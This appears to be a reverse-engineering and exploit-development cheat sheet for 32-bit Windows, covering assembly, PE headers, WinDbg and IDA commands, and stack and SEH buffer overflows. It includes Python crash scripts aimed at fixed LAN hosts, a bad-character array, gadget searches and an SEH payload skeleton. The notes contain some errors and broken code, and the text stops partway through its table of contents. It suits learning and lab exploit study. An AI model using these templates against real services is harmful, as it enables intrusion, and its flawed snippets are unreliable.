

Windows: User Mode x32bit Exploit Understanding::: [ CONTENTS ]::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: # --[ 1 - x86 Intel Assembly # ---[ eFLAGS # ---[ Data Size # ---[ Instructions # ---[ Working on the Stack # ---[ Arithmetic Operations # ---[ Logic Operations # ---[ Basic Control Flow # ---[ Comparisons and Conditional Jumps # ---[ Instructions for Unsigned Comparison (Positive) # ---[ Instructions for signed number comparisons (Negative-Positive) # --[ 2 - Portable Executable File Format # ---[ Standard Sections # ---[ Inspect PE using WinDBG # --[ 3 - WinDBG Panel # ---[ WinDBG Shortcut Keys # ---[ Symbols # ---[ Display & Manupilating ( Memory, CPU) # ---[ Breakpoints # ---[ Debugging ( Stepping & Tracing) # ---[ Modules & Info Commands # ---[ Evaluate Expression / Calculation # ---[ Windbg Scripting # ---[ WinDbg Automation with Python # ---[ IDA Pro/Freeware # ---[ IDA Helpful Table # --[ 4 - Stack Overflows # ---[ Network Script # ---[ Web Script # ---[ Find Offset # ---[ Detect BadChars # ---[ Find JMP ESP # ---[ Island Hopping # --[ 5 - SEH Overflows # ---[ P.P.R # ---[ JMP short bytes # ---[ Island Hopping # ---[ SEH Shellcode Structure (General) # ---[ Small Buffer Tips (BOF/SEH) # --[ 6 - Egghunters # ---[ NTAccess Egghunting # ---[ SEH Egghunting # --[ 7 - Reverse Engineering For Bugs # ---[ Notes: # --[ 8 - DEP Bypass # ---[ Functions Prototype Requirements # ---[ VirtualAlloc() # ---[ HeapCreate() # ---[ SetProcessDEPPolicy() # ---[ NtSetInformationProcess() # ---[ VirtualProtect() # ---[ WriteProcessMemory() # ---[ Find Code Cave for your shellcode # ---[ Find ROP Gadgets # ---[ Find IAT manually using windbg # ---[ Find the memory address # ---[ Tips # --[ 9 - ASLR Bypass # --[ 10 - Format Strings Vulnerabilities # ---[ Reading Permitive # ---[ Writing Permitive # ---[ (General) ASLR Exploiting # ---[ Stack Pivoting # --[ 11 - MSFVenom Commands (Shellcode/etc) # ---[ Oneliner Listener # ---[ Payload Size and Buffer Calculations # ---[ List Windows payloads only # ---[ 32-bit # ---[ 64-bit # ---[ Extra ########################################################################### # --[ 1 - x86 Intel Assembly ########################################################################### [+] When using gadgets to perform arithmetic with registers. Dereference pointer to here. = EAX / ECX / EDX [+] Storage, Better for memory pointers, exp: mov eax, [esi]. = ESI | EDI [!] Reserved for stack management, dont use them for general storage, unless you know what you do. = EBP / ESP EAX = Extended Accumulator Register AX (16-bit) AH (8-bit High) AL (8-bit Low) - Primarily used for arithmetic operations. Often stores the return value of a function. EBX = Extended Base Register BX (16-bit) BH (8-bit High) BL (8-bit Low) - Can be used as a pointer to data (especially with the use of the SIB byte, or for local variables in some cases). ECX = Extended Counter Register CX (16-bit) CH (8-bit High) CL (8-bit Low) - Commonly used for loop counters in iterative operations. EDX = Extended Data Register DX (16-bit) DH (8-bit High) DL (8-bit Low) - Used in arithmetic operations alongside EAX for multiplication and division, and can hold the overflow result. ESI = Extended Source Index SI (16-bit) SIL (8-bit High) N/A (8-bit Low) - Commonly used as a pointer to the source in stream operations (e.g., string operations). EDI = Extended Destination Index DI (16-bit) DIL (8-bit High) N/A (8-bit Low) - Commonly used as a pointer to the destination in stream operations (e.g., string operations). EBP = Extended Base Pointer BP (16-bit) BPL (8-bit High) N/A (8-bit Low) - Used to point to the base of the stack, and often references local function variables and function call return addresses. ESP = Extended Stack Pointer SP (16-bit) SPL (8-bit High) N/A (8-bit Low) - Points to the top of the stack and adjusts automatically as values are pushed to or popped from the stack. - The stack is a memory location used by functions to store local variables. - Stack grow in an oppiste way if we add data to the stack it grows by -4 and if we removed the data it will grow +4. # ---[ eFLAGS=============//=== CF = Carry flag PF = Parity flag ZF = Zero flag SF = Sign flag OF = Overflow flag # ---[ Data Size=============//=== byte = 1 byte word = 2 byte dword (double word) = 4 byte qword (quad word) = 8 byte # ---[ Instructions=============//=== # Copying Data ================ MOV = MOV EAX, 5 - Moves data between the source operand and the destination operand. - Copies the value 5 into the EAX register. MOV EBX, 0x33 - The value 0x33 is moved directly into the EBX register. MOV DWORD [EAX], EBX - This instruction moves the value in EBX to the memory address pointed to by EAX. The DWORD specifies that it’s a double word (32 bits) operation. The brackets [EAX] mean “the memory address contained in EAX”. MOV ECX, DWORD [EAX] - The value from the memory address pointed to by EAX is moved into the ECX register. Again, the use of DWORD specifies a 32-bit operation. - move the 32-bit value located at the memory address contained in the EAX register into the ECX register. LEA = LEA EAX, [EBX+8] - Loads the effective address of the source operand into the destination register - Computes the address EBX + 8 and stores it in EAX. LEA ECX, [ECX + EDX] - Destination (ECX): This is the register where we want to store the computed address. - Source ([ECX + EDX]): This is the effective address we want to compute. The square brackets [] don’t mean we’re fetching data from memory here. Instead, they are used to indicate an address computation. The instruction calculates the sum of the values in the ECX and EDX registers. # ---[ Working on the Stack ============================== PUSH = PUSH EAX - Pushes the source operand onto the stack. - Pushes the value in EAX onto the top of the stack. POP = PUSH EAX - Pops the top of the stack into the destination operand - Pops the top value from the stack into EAX. # ---[ Arithmetic Operations =================================== INC = INC EAX - Increments the operand by 1 - Adds 1 to the value in EAX. DEC = DEC EAX - Decrements the operand by 1 - Subtracts 1 from the value in EAX. ADD = ADD EAX, EBX - Adds the source operand to the destination operand - Adds the value in EBX to the value in EAX and stores the result in EAX. SUB = SUB EAX, EBX - Subtracts the source operand from the destination operand - Subtracts the value in EBX from EAX and stores the result in EAX. MUL = MUL EBX - Multiplies the source operand with the destination operand - Multiplies EAX × EBX - Multiplies EAX by EBX and stores the result in EAX (lower half) and EDX (upper half). DIV = DIV EBX - Divides the source operand by the destination operand - Divides EDX:EAX by EBX - Divides EAX by EBX, with the quotient in EAX and remainder in EDX. # ---[ Logic Operations ================================ AND = AND EAX, EBX - Logical AND operation between two operands - Performs a bitwise AND between EAX and EBX and stores the result in EAX. OR = OR EAX, EBX - Logical OR operation between two operands - Performs a bitwise OR between EAX and EBX and stores the result in EAX. - This instruction keep me crashing in ROP. dam XOR = XOR EAX, EBX - Logical XOR operation between two operands - Performs a bitwise XOR between EAX and EBX and stores the result in EAX. NOT = NOT EAX - Logical NOT operation on the operand - Inverts all the bits in EAX. # ---[ Basic Control Flow ================================ CALL = CALL procedureName - Calls a procedure - Jumps to the label procedureName and pushes the next instruction’s address onto the stack. RET = RET - Returns from a procedure - Pops the top of the stack into the instruction pointer, resuming execution after the last CALL. JMP = JMP label - Unconditional jump to a label or address - Jumps to the address or label specified without condition. # ---[ Comparisons and Conditional Jumps ================================================ TEST = TEST EAX, EAX - Logical AND operation between two operands without storing the result - Performs a bitwise AND between EAX and EAX without saving the result, typically used to set flags. CMP = CMP EAX, EBX - Compares two operands by subtracting them and setting the flags - Subtracts EBX from EAX without storing the result and updates the flags based on the result. Jxx = JE label - Conditional jump based on the set flags, where xx can be various conditions like JE, JNE, JG, JL, etc. - Jumps to the label if the last comparison was equal. # ---[ Instructions for Unsigned Comparison (Positive) ============================================================ JE/JZ = Jump if Equal or Jump if Zero JNE/JNZ = Jump if not Equal / Jump if Not Zero JA/JNBE = Jump if Above / Jump if Not Below or Equal JAE/JNB = Jump if Above or Equal / Jump if Not Below JB/JNAE = Jump if Below / Jump if Not Above or Equal JBE/JNA = Jump if Below or Equal / Jump if Not Above # ---[ Instructions for signed number comparisons (Negative-Positive) ========================================================================== JE/JZ = Jump if Equal or Jump if Zero JNE/JNZ = Jump if not Equal / Jump if Not Zero JG/JNLE = Jump if Greater / Jump if Not Less or Equal JGE/JNL = Jump if Greater / Equal or Jump Not Less JL/JNGE = Jump if Less / Jump if Not Greater or Equal JLE/JNG = Jump if Less or Equal / Jump Not Greate ######################################### # --[ 2 - Portable Executable File Format ######################################### [+] Actually there is lot things to cover on this part, but i only take what necessasary for me to understand. IAT = Import Address Table EAT = Export ADdress Table # ---[ Standard Sections==============================//=== .text: = Contains executable code. .data: = Contains initialized variables. .bss: = Contains uninitialized variables. .rdata: = Contains read-only constants. .rsrc: = Contains resources like icons, bitmaps, etc. .reloc: = Contains relocation data. .edata: = Contains exported symbols. .idata: = Contains imported symbols information. # ---[ Inspect PE using WinDBG====================================//=== # DOS Header - Displays the DOS header structure. windbg> dt _IMAGE_DOS_HEADER <address> output> 5A4D # NT Headers - Displays the NT headers, including the file header and optional header. windbg> !dh <ModuleName> # File Header - Displays the file header with machine type and number of sections. windbg> dt _IMAGE_FILE_HEADER <address> # Optional Header - Displays the optional header, including entry point and image base. windbg> dt _IMAGE_OPTIONAL_HEADER <address> # Section Headers - Displays the file headers and section headers. windbg> !dh -f/-s <ModuleName> # Export Directory - Displays the export directory of a module. windbg> !dh -e <ModuleName> # Import Directory - Displays the import directory of a module. windbg> !dh -i <ModuleName> # Base Relocation Table - Displays the base relocation table of a module. windbg> !dh -b <ModuleName> # Resource Directory - Displays the resource directory of a module. windbg> !dh -r <ModuleName> # Individual Section Details - Displays details of a particular section header. windbg> dt _IMAGE_SECTION_HEADER -r <address> Output> .text # Exported Functions - Lists all the exported functions of a module. windbg> x <ModuleName>!* # Imported Functions - Lists all the imported functions of a module. windbg> x <ModuleName>!__imp_* # Check for ASLR, DEP, etc. - Look under ‘OPTIONAL HEADER VALUES’ in the output for DllCharacteristics. windbg> !dh <ModuleName> # Debug Directory - Displays the debug directory of a module. windbg> !dh -d <ModuleName> # TLS Directory - Displays the thread local storage (TLS) directory of a module. windbg> !dh -t <ModuleName> # Load Config Directory - Displays the load config directory of a module. windbg> !dh -l <ModuleName> # Bound Import Directory - Displays the bound import directory of a module. windbg> !dh -y <ModuleName> # IAT and ILT - Displays the Import Address Table (IAT) or Import Lookup Table (ILT) data. windbg> dt nt!_IMAGE_THUNK_DATA <address> # Specific Exported Function - Unassembles the specified function. windbg> u <ModuleName>!<FunctionName> # Memory Layout of Sections - Displays a summary of memory usage, including section layout. windbg> !address -summary # Viewing Raw Data - Displays the raw data at the specified address. windbg> db <address> # Disassemble Entry Point - Disassembles the instructions at the entry point of the module. windbg> u <ModuleName>+<EntryPointOffset> # Viewing Section Permissions - Displays the memory ranges and permissions for the module sections. windbg> !address <ModuleName> # ALL Information - Displays ALL information. windbg> !dh -a <ModuleName> ######################################### # --[ 3 - WinDBG Panel ######################################### # ---[ WinDBG Shortcut Keys========================//=== CTRL+E = Open Executable, Opens a new executable for debugging. F6 = Attach Process, Attaches the debugger to an existing process. SHIFT+F5 = Stop Debugging, Stops the current debugging session. F5 = Go, Continues execution after a breakpoint or pause. CTRL+SHIFT+F5 = Restart, Restarts the current debugging session. F11/F8 = Step Into, Executes code one line or instruction at a time, stepping into functions. F10 = Step Over, Executes the next line or instruction, but steps over functions. SHIFT+F11 = Step Out, Continues execution until the current function returns. ALT+7 = Disassembly Window, Displays disassembled code. N/A = "View > Notes". Notes Window, Provides a space for taking notes during debugging. CTRL+N = Command Browser Window, Provides a searchable list of commands. # ---[ Symbols ====================== # Set Symbol Path, Sets the path where WinDbg looks for symbols. command = .sympath [path] windbg> .sympath srv*C:\Symbols*https://msdl.microsoft.com/download/symbols # Append Symbol Path. Appends a new path to the current symbol path. command = .sympath+ [path] windbg> .sympath+ C:\MySymbols # Reload Symbols, Reloads symbol information. command = .reload windbg> .reload /f # List Symbol Path. Displays the current symbol path. command = .sympath # ---[ Display & Manupilating ( Memory, CPU) ================================================= [+] L = is used for length/lines to display/print. ## Unassembling from Memory ----------------------------- - Unassembles instructions starting at the specified address. command = u [Address] windbg> u 00400000 - Unassembles a specified number of instructions from an address. command = u [Address] L[Length] windbg> u 00400000 L10 ## Dumping and Reading from Memory ------------------------------------- - Displays memory as bytes. command = db [Address] windbg> db 00400000 - Displays memory as words. command = dw [Address] windbg> dw 00400000 - Displays memory as double words (DWORD) command = dd [Address] windbg> dd 00400000 - Displays memory as quad words. (QWORD) command = dq [Address] windbg> dq 00400000 - Displays memory as quad words. (QWORD) command = dq [Address] windbg> dq 00400000 - Displays memory as ASCII strings command = da [Address] windbg> da 00400000 - Displays memory as Unicode strings. command = du [Address] windbg> du 00400000 - Displays memory as double words and ASCII characters. command = dc [Address] windbg> dc 00400000 - Dumps pointer-sized values from memory. command = dp [Address] L[Length] windbg> dp 00400000 L2 ## Dumping Structures from Memory ------------------------------------ - Displays the structure definition of _HACKER. command = dt [TypeName] windbg> dt memory!_HACKER - Dumps the _HACKER structure contents from a specific memory address. command = dt [TypeName] [Address] windbg> dt memory!_HACKER 00b4de40 - Recursively displays nested structures within _HACKER. command = dt -r [TypeName] windbg> dt -r memory!_HACKER - Displays nested structures within _HACKER up to one level deep. command = dt -r1 [TypeName] windbg> dt -r1 memory!_HACKER - Displays the type and offset of the handle element in _HACKER. command = dt [TypeName] [Element] windbg> dt memory!_HACKER handle - Displays the type and offset of age within the nested biography structure. command = dt [TypeName].[NestedElement] windbg> dt memory!_HACKER biography.age ## Modifying and Writing to Memory ------------------------------------ - Modifies a byte of memory. command = eb [Address] [Value] windbg> eb 00400000 90 - Modifies a word of memory. command = ew [Address] [Value] windbg> ew 00400000 9090 - Modifies a double word of memory. command = ed [Address] [Value] windbg> ed 00400000 90909090 - Modifies a quad word of memory. command = eq [Address] [Value] windbg> eq 00400000 9090909090909090 - Writes an ASCII string to memory. command = ea [Address] "String" windbg> ea 00400010 "Hello, World!" - Writes a zero-terminated ASCII string to memory. command = ez [Address] "String" windbg> ez 00400010 "Hello, World!" ## Searching in Memory ------------------------ - Searches memory for a byte pattern. command = s -b [Range] [Pattern] windbg> s -b 0 L?10000 4e - Searches memory for a word pattern. command = s -w [Range] [Pattern] windbg> s -w 0 L?10000 004e - Searches memory for a double word pattern. command = s -d [Range] [Pattern] windbg> s -d 0 L?10000 004e004e - Searches memory for a quad word pattern. command = s -q [Range] [Pattern] windbg> s -q 0 L?10000 004e004e004e004e - Searches the entire process space for the ASCII string “Hello”. command = s -a [Start] L?[End] "[String]" windbg> s -a 0 L?80000000 "Hello" - Searches the entire process space for the Unicode string “Hello”. command = s -u [Start] L?[End] "[String]" windbg> s -u 0 L?80000000 "Hello" - Searches the entire process space for the byte sequence of “Hello”. command = s -b [Start] L?[End] [Bytes] windbg> s -b 0 L?80000000 48 65 6c 6c 6f - Searches a specific address range for the ASCII string “I’m hacker”. command = s -a [Start] L[Length] "[String]" windbg> s -a 0xb80000 L1000 "I'm an egg" ## Inspecting and Modifying CPU Registers ------------------------------------------ - Displays the values of all registers. windbg> r - Displays the value of a specific register. command = r [Register] windbg> r eax - Modifies the value of a specific register. command = r [Register]=[Value] windbg> r eax=5 - Modifies the values of multiple registers simultaneously. command = r [Register1]=[Value1] [Register2]=[Value2] windbg> r eax=5 ebx=10 # ---[ Breakpoints ========================= ## Software Breakpoints bp [Address] = Sets a software breakpoint at a specified address. bp module!function = Sets a breakpoint at the start of a function within a module. ## Unresolved Breakpoints bu [Address] = Sets a breakpoint that will resolve when a module gets loaded. bu module!function = Sets an unresolved breakpoint at a function that will be resolved later when the module is loaded. ## Conditional Breakpoints bp [Address] "if ([Condition]) {;}; gc" = Sets a breakpoint with a condition. If the condition is true, the breakpoint will be hit. bp [Address] "j ([Condition]); 'gc'; 'ElseCommand'" = Sets a breakpoint that executes ‘ElseCommand’ if the condition is false. ## Breakpoint-Based Actions bp [Address] "[Commands]" = Sets a breakpoint with associated commands that run when the breakpoint is hit. bp [Address] "k; g" = Sets a breakpoint that will display the call stack and then continue execution. ## Hardware Breakpoints ba r1 [Address] = Sets a hardware breakpoint for read access of one byte. ba w4 [Address] = Sets a hardware breakpoint for write access of four bytes. ba e [Address] = Sets a hardware breakpoint for execution at a specified address. # ---[ Debugging ( Stepping & Tracing) ========================================= p = Step Over. Executes the next instruction; if it is a call, steps over to the next instruction in the current function. t = Trace Into. Executes the next instruction; if it is a call, traces into the called function. p 2 = Step Over with Count. Executes the next [Count] instructions, stepping over any calls. (p [Count]) t 2 = Trace Into with Count. Executes the next [Count] instructions, tracing into calls. (t [Count]) pt = Step Out. Executes until the current function is complete and returns to the caller. pa follow!callee = Step to Next Return. Steps to the return of the current function or a specified address. pt = Step to Next Return. Executes until it encounters a return (ret) instruction in the current function, effectively performing multiple step (p) commands. tt = Trace to Next Return. Executes until it encounters a return (ret) instruction, effectively performing multiple trace (t) commands and tracing into any called functions. ph = Step to Next Branch Instruction. Executes until it reaches any branching instruction, including calls, jumps, and returns. th = Trace to Next Branch Instruction. Traces execution until it reaches any branching instruction, stepping into calls and other branches. pc = Step to Next Call. Executes until a call instruction is reached. tc = Trace to Next Call. Traces until a call instruction is reached, stepping into the call. pct = Step until Next Call or Return. Executes until the next call or return instruction is reached. tct = Trace until Next Call or Return. Traces until the next call or return instruction is reached, stepping into calls. pa 00d0105d = Step to Address. Executes until reaching the specified address, showing each step (registers and current instruction) along the way. ta 00d0105d = Trace to Address. Similar to pa, but traces into function calls and more complex control structures until reaching the specified address. # ---[ Modules & Info Commands ========================================= lm = Lists all modules loaded by the process with start and end memory addresses, and symbol status. lm m "module" = Lists modules that match the given pattern, useful for filtering specific modules. x *!strcpy = Examines symbols within modules matching the pattern. The * wildcard matches any sequence of characters, and the ! separates module from symbol. x module!symbol = Lists symbols within a specific module that match the symbol pattern provided. The ? wildcard matches any single character. !address @eip = Provides detailed information about the memory region an address belongs to, including base address, size, state, protection, type, and the module it is associated with. It offers an extensive view of the address space and can also give hints about what more to investigate (lmv, lmi, ln, dh). !vprot @esp = Provides information about the memory protection attributes of the page that contains the specified address. Unlike !address, which provides a broader overview, !vprot focuses specifically on the protection attributes of the page itself. !teb = Displays the contents of the Thread Environment Block (TEB), which includes thread-specific data such as stack limits, thread local storage (TLS), and thread ID. !peb = Shows the contents of the Process Environment Block (PEB), which holds process-related information such as the image base address, the process heap, and environment variables. # ---[ Evaluate Expression / Calculation ============================================= ? features!buf1 - features!buf2 = Evaluate Offset. Calculates the offset (distance) between two addresses, outputting the result in both decimal and hexadecimal. ? 0x20 = Convert Hex to Dec. Converts a hexadecimal number to its decimal equivalent, outputting both. ? 0n54 = Convert Dec to Hex. Converts a decimal number to its hexadecimal equivalent, outputting both. ? 3 << 1 = Bitwise Shift. Performs a bitwise left shift on a number, effectively multiplying it by 2 for each shift. ? 0x12345678 & 0xffff = Bitwise AND. Performs a bitwise AND operation, which can be used to mask out certain bits in a number (e.g., getting the lower 16 bits of a 32-bit number). ? @eip + 24 = Use Register Value. Evaluates an expression using the current value of a register (e.g., the eip register) and adds a decimal value to it. ? -0n254 = Negative Hex Representation. Finds the hexadecimal representation of a negative decimal number. [+] The default Windbg extension for script files .wds r $ip = Inspect automatic pseudo-register r eip = Confirm the value of CPU register corresponding to $ip r $ip = 00e010a8 <- Modify the value of the $ip pseudo-register r $ip = Confirm the modification of the $ip pseudo-register r $ip = 00e010a0 <- Revert change to prevent application crash r $t0 = 12345678 <- Assign a value to user-defined pseudo-register r $t1 = @$t0 & 0xffff <- Perform bitwise AND on user-defined pseudo-register r $t1 = Inspect the result of the operation on user-defined pseudo-register [+] WinDbg has 20 user-defined pseudo-registers: $t0 through $t19. # ---[ Windbg Scripting ============================= - Assign a value to a pseudo-register. Assigns the value at the top of the stack to $t0. .foreach (value {dd esp L1}) {r $t0 = value} - Execute a command repeatedly. Unassembles instructions at $ip, 10 times. .for (r $t0 = 0; @$t0 < 10; r $t0 = @$t0 + 1) {u @$ip} - Conditional breakpoint with script. Continues execution if EAX equals 1 when breakpoint hits. bp 0x00401000 "j (@eax==1), 'g', ''" - Write to a log file. Writes the current call stack to a log file. .logopen /t c:\debug\log.txt; k; .logclose - Branching in script. Checks if EAX is 5 and prints a message accordingly. r $t0 = (@eax==0x5); .if (@$t0) { .echo "EAX is 5" } .else { .echo "EAX is not 5" } - Using aliases. Sets an alias for a value, uses it, then deletes the alias. as /x myval 5; .echo @@myval; ad /q myval - Script loops with aliases. Prints each DWORD on the stack, one per line. .foreach /pS 1 (myalias {dd esp L4}) { .echo myalias } - Data manipulation with scripts. Executes a block of commands in sequence. .block { .echo "Starting block"; r $t0 = 1; .echo @$t0 } - Logging with a condition. Appends to a log file if EAX is 1. .if (@eax==1) { .logappend c:\logs\eax_log.txt } - Iterating over a list of addresses. Dumps memory contents every 256 bytes from 0x1000 to 0x2000. .for (r $t0 = 0x1000; @$t0 < 0x2000; r $t0 = @$t0 + 0x100) { dd @$t0 } - Conditionally modifying memory. Writes "New string" at the address in EBP if EAX is 3. .block { .if (@eax==3) { ez @ebp "New string" } } - Running a script file. Executes the script commands from init.wds. $$>< c:\scripts\init.wds - Custom command sequences. Loads a custom command tree from an XML file. .cmdtree c:\scripts\commands.xml - Temporary breakpoints in a loop. Sets a temporary breakpoint at increasing offsets inside a function and continues. .for (r $t0=0; @$t0<5; r $t0=@$t0+1) { "bp function+(@$t0*0x100) 'gc'; g" } - Writing function return values. Prints the return value of a function after a call (assuming standard calling convention). .printf "Return value is %x\n", poi(@esp) - Complex conditional logging. Logs the call stack if the second parameter (at EBP+8) of the function is 1. .if (poi(@ebp+8)==1) { .logopen /t c:\debug\log.txt; k; .logclose } # ---[ WinDbg Automation with Python ========================================== Pykd enables us to write Python scripts containing Application Programming Interface (API) calls that interact with WinDbg for us. [+] 32-bit version to be compatible with the 32-bit WinDbg (x86). If we were using WinDbg (x64), we would need to install a 64-bit version of Python windbg> .load pykd windbg> !py {script path} Reference: https://web.archive.org/web/20221217225433/http://githomelab.ru/pykd/pykd/-/wikis/home # ---[ IDA Pro/Freeware =============================== [+] When a binary is analyzed by IDA, five files with extensions .id0, id1, id2, .nam, and .til are created in the directory where the analyzed file is located. Each file contains various information and will have a name matching the analyzed file. When saving a project, all the files are compressed and stored in a database or idb file, which will have a .idb extension for x32 architectures and a .i64 extension for x64 files. [PBD] PDB stands for program database, a file format developed by Microsoft to store debugging information about a program. It usually contains a list of symbols, addresses, and names, among other details. This information is not stored in the binary file as it would require much more disk space. This is one of the reasons why PDB files are used. [x86] On the x86 architecture, arguments are pushed to the stack before the call instruction to the function is executed. # ---[ IDA Helpful Table =============================== Space = Open Text View ; | : = Add comment to instruction N = Rename an Object (Function/Variable, etc..) Alt+M = Bookmarking an instruction CTRL+M= Show/List Bookmarked Instructions ESC = Go back to previous CTRL+Return = Go forward Shift+F12 = Show Strings Alt+T = Search for a string Alt+B = Search for Sequence Bytes CTRL+P(CTRL+F to search for function) = open Jump to a function windows CTRL+L = Search for global variables X = Cross-Referencing. Detect all usages of a specific function or global variable. CTRL+F = Use when highlight any object so it takes you to it’s all refereces F5 = Decompiling / = Add comment on the decompiled code G = Jump Jump to address F9 = Start Debugging F2 = Set a Breakpoint CTRL+ALT+B = Show the breakpoints list (Debug mode) F5 = Take a step over in debugging View > Open subviews > Proximity browser = The Proximity view is a more advanced feature that allows us to browse the relationships between different functions, global variables,3 and constants. Right click > Synchronize with = Synchronize pseudocode with disasembly window Options > General > Line prefixes (graph) = Enable line prefixes in the graph view. Segements > Rebase Program = Rebase the whole program address File > Load file > PDB file = Load PDB file Edit > Patch program > Assemble = Patching. Patch highlited instruction. Edit > Patch program > Apply patches to input file = Apply Patching. Apply Instruction Patching. ######################################### # --[ 4 - Stack Overflows ######################################### [+] Crashing The App. You send a request with huge data input and review the app if crash or no, Sometimes the App may not crash if you didn’t send the data at once. # ---[ Network Script =============================== #!/usr/bin/python import socket, os, time, struct host = "192.168.0.101" port = 8433 size = 2000 buffer = b"\x41" * size s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) s.connect((host, port)) s.send(buffer) s.close() # ---[ Web Script ==================== #!/usr/bin/python import socket, sys host = "192.168.224.10" port = 80 def send_exploit_request(): size = 6000 # offset = 2499 buffer = b"A"*offset #HTTP Request request = b"GET /" + buffer + b"HTTP/1.1" + b"\r\n" request += b"Host: " + host.encode() + b"\r\n" request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n" request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n" request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n" request += b"Accept-Encoding: gzip, deflate" + b"\r\n" request += b"Connection: keep-alive" + b"\r\n\r\n" s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((host,port)) s.send(request) s.close() if __name__ == "__main__": send_exploit_request() # ---[ Find Offset ====================== For finding the offset where the EIP get overwrited. # Create Unique pattern: $ msf-pattern_create -l {size} # Find the offset match of the pattern $ msf-pattern_offset -l {size} -q {value} # ---[ Detect BadChars ============================= badchars = ( b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d" b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a" b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27" b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34" b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41" b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e" b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b" b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68" b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75" b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82" b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f" b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c" b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9" b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6" b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3" b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd" b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea" b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7" b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff") [TIP] If you have a small size buffers you can send it on blocks with the same size as buffers until finish the whole array.You have an array of 1000 bytes. Your buffer can only hold 100 bytes. Dont, Try to load all 1000 bytes to overflow buffer. # Process in chunks: First 100 bytes Next 100 bytes Next 100 bytes … until it done # ---[ Find JMP ESP ========================== # Search in address range. finding JMP ESP instruction. Windbg> s -[1]b start_range end_range FF E4 # Windbg> s -[1]b start_range end_range FF E4 Windbg> lm # To list the modules with protictions status use narly: Windbg> .load narly Windbg> !nmod # ---[ Island Hopping ============================= In island hopping we calcluate the length if bytes between the esp and start of our shellcode, That way when we get the calue we can add it to esp/sp and elemenat it and JMP to the esp which will be indicating to our shellcode. Windbg> ? shellcode_address - @esp # Generate Opcodes $ msf-metasm_shell > add sp, value [+] We use sp to avoid null bytes ######################################### # --[ 5 - SEH Overflows ######################################### [+] You send a request with huge data input and review the app if crash or no, Sometimes the App may not crash if you didn't send the data at once. You have to -4 the offset when find it, Cause the offset is for the current_seh_handler and offset+4 is the nseh. the payload send is as the following: nseh = the jmp short bytes seh = pop r32; pop r32; ret; 0:000> !exchain 0014a84c: ntdll!ExecuteHandler2+44 (77263b20) 0014b75c: 42424242 Invalid exception stack at 41414141 # Never forget to add the final padding size = 2000 # change me payload = b'PASS anonymous' payload += b"A" * 792 # Filler payload += b"B" * 4 # EIP payload += b"C" * (size - len(payload)) #important # ---[ P.P.R ==================== Next step is to find the pop r32; pop r32; ret;: Windbg code: .block { .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01) { .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01) { s-[1]b start_address end_address $t0 $t1 c3 } } } # ---[ JMP short bytes ============================= Now, It’s time to JMP shortly to avoid invalid instructions and crash. # -4 bytes inside filler. we use 4 bytes = EB80 payload += b"\xEB\x80\x90\x90" # (short jmp back -126) Another way, you can directly modify the value after PPR: 1. First when P/ P/ R/ instructions is done, You start to assemble the address using windbg: 2. We use "a" commmand after ret from P/ P/ R/ to assemmble a jmp instruction. 3. We choose the address we want to jump to jmp 0xaddress. 4. Press Enter to assemble 5. We can see in the opcode that the JMP 0xaddress translated to eb08 which means Jump 08 bytes which is gonna jump to the address we provided (later our shellcode). 6. Finally don’t forget to add 2 \x90 as the address is missing 2 bytes(\xeb\x08\x90\x90). 7. Now EIP at eb08 "jmp {address to jump}" # ---[ Island Hopping ============================= In island hopping we calcluate the length if bytes between the esp and start of our shellcode, That way when we get the value we can add it to esp/sp and elemenat it and JMP to the esp which will be indicating to our shellcode. Windbg> ? shellcode_address - @esp Generate Opcodes: msf-metasm_shell > add sp, value We use sp to avoid null bytes. # ---[ SEH Shellcode Structure (General) =============================================== filler = b"\x41" * (size) nseh = b"\xeb\x08\x90\x90" # short jump backward -126 seh = b"pop;pop;ret;" # pop r32; pop r32; ret; add_esp = b"opcode" shellcode = "our_shellcode" padding2 = b"\x90" * (size - len(shellcode - padding - nseh - seh - add_esp - jmp_esp)) buffer = padding + nseh + seh + shellcode + padding2 # ---[ Small Buffer Tips 